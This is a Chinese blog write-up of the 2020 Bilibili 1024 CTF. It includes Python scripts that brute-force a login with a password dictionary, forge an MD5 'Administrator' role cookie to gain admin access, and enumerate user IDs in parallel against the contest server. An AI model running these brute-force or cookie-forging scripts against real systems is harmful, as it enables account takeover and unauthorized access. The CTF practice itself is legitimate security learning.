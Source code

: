 <!--yml
category: 未分类
date: 2022-04-26 14:30:26
-->

# 哔哩哔哩1024安全挑战赛 Bilibili CTF题解(含代码)_一口快乐水的博客-CSDN博客

> 来源：[https://blog.csdn.net/u013560932/article/details/109276846](https://blog.csdn.net/u013560932/article/details/109276846)

# 题解

> 2020-10-25
> Bilibili在1024节上线了一个CTF挑战赛，非常amazing啊，虽然前面几题还是很简单的，不过大佬太多了，服务器都已经被扫爆了，redis也连不上去，在我做题的时候甚至各种资源文件都已经不存在了，真是诸神混战，活生生把单机打成了联网，我都怀疑是不是有人故意删了资源文件，故意暴力扫描，让后面的人没法做题，拿不到奖品。

## 第一题

没啥好说的，查看源码，input里面的value就是flag
![在这里插入图片描述](img/d7d9e5be0f29a467e7913c0ea9be1701.png)

## 第二题

![在这里插入图片描述](img/eee61e64d216264407915fbe3b01a776.png)

更改UA为bilibili Security Browser发送请求
附py3代码，后续的所有题解都基于这个代码改就行了
注意cookie，没有这个东西你咋发请求都不包含登录态，response都是请先登录的错误

```
import requests
import json
import time
from multiprocessing import Process

if __name__ == '__main__':
    url = 'http://45.113.201.36/api/ctf/2'
    headers = {'content-type': 'application/json;charset=UTF-8','User-Agent':'bilibili Security Browser','cookie':'复制浏览器2请求的cookie到这里，里面有包含你登录态的session'}
    seesion = requests.session()

    res = seesion.get(url, headers=headers, verify=False)
    print(res.text)
    try:
        res = json.loads(res.text)
        if res['code'] != '403':
            print('login secceed...',uid,res)
    except:
        print(res.text) 
```

## 第三题

![在这里插入图片描述](img/1ab7982b02e1bdc7edcf1df7394b4391.png)

这时我们发现第三题的请求是http://45.113.201.36/api/ctf/3
第二题是ctf/2,所以明显是有规律的，不过有的是get方法，有的是post方法，方法不对会返回Method is invalid错误。
第三题简单盲注发现没什么效果，那就直接脚本暴力把，反正第二题把脚本也写好了,加个后台字典，改一改就能用
我这里的代码读的字典是username,password格式的，其他格式的自己要改解析方式
拼一拼参数就好了
最后破解出来是admin,bilibili

```
import requests
import json
import time
from multiprocessing import Process
if __name__ == '__main__':
    url = 'http://45.113.201.36/api/ctf/3'
    headers = {'content-type': 'application/json;charset=UTF-8','User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36',
    'cookie':'复制浏览器3请求的cookie到这里，里面有包含你登录态的session'}
    seesion = requests.session()
    with open('dict.txt', 'r') as f:
    	while 1:
    		lines = f.readlines(100000)
    		if not lines:
        		break
    		for line in lines:
		        user,pwd = line.split(',')
		        pwd=pwd.replace('\n','')
		        data = {'username':user,'passwd':pwd}
		        body = json.dumps(data)
		        res = seesion.post(url, body, headers=headers, verify=False)
		        res = json.loads(res.text)
		        if res['code'] != 406:
		            print('login secceed...',data)
		            break
		        print(res) 
```

## 第四题

![在这里插入图片描述](img/dd098fc41ee941bcdef9f88d41de0b55.png)
这道题就是改cookie了，有点难猜，超级管理员是Administrator
cookie里把role改成Administrator的md5 32位密文发送请求就可以了
代码还是上面的代码，headers里的cookie内容改一下，url改一下，请求就得到flag了

```
 headers = {'content-type': 'application/json;charset=UTF-8','User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36',
    'cookie':'session=你自己的session;role=7b7bc2512ee1fedcd76bdc68926d4f7b;user=7b7bc2512ee1fedcd76bdc68926d4f7b'} 
```

## 第五题

这题也没什么好说的，看源码，让我们猜uid,没什么提示，只有一个uid默认值，请求是get请求，拼上get请求的urlParam，暴力就行了
不知道范围多大，我们直接开个多进程跑把，还是上面的代码，改一改
跑完发现实际没多大，基于默认值uid一会就跑出来了，看来出题人也怕自己的qps顶不住啊
跑出来的uid是100336915
对应的res.text里有data，里面就是flag了

```
import requests
import json
import time
from multiprocessing import Process

def func(name, left, right):
    url = 'http://45.113.201.36/api/ctf/5'
    headers = {'content-type': 'application/json;charset=UTF-8','User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36',
    'cookie':'session=你的session;role=7b7bc2512ee1fedcd76bdc68926d4f7b'}
    seesion = requests.session()
    for i in range(left,right):
        uid = i
        res = seesion.get(url+'?uid={0}'.format(uid), headers=headers, verify=False)
        print(uid)
        try:
            res = json.loads(res.text)
            if res['code'] != '403':
                print('login secceed...',uid,res)
                with open('answer.txt','w') as fw:
                    fw.write(str(uid))
                    fw.write('\n')
        except:
            print(res.text)
            with open('error.txt','w') as fw:
                fw.write(str(res.text))
                fw.write('\n')

if __name__ == '__main__':
    processlist = []
    for i in range(0,10):
        left = 100336889 + i*1000
        right = 100336889 + (i+1)*1000
        p = Process(target=func, args=("进程{0}".format(i),), kwargs={"left": left, "right": right})
        processlist.append(p)
    for i in processlist:
        i.start() 
```

## 第六题

资源全部404，我来晚了，已经被人搞挂了

## 第七题

连不上，艹

## 第八题

redis，连不上，同被人扫非常不稳定

## 第九题

同上

## 第十题

php注入，还没做